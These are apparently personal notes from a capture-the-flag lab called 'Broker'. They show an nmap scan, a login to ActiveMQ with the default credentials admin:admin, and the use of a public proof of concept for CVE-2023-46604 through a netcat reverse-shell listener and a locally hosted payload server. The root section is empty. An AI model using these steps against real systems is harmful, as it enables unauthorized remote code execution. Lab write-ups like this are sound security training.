 Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login
![](Broker-paste.png)
* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link
![](Broker-paste-1.png)
* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
	* Also need a nc listener
		* `sudo nc -nlvp 8100`
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
		* `python -m http.server 8081`
# Root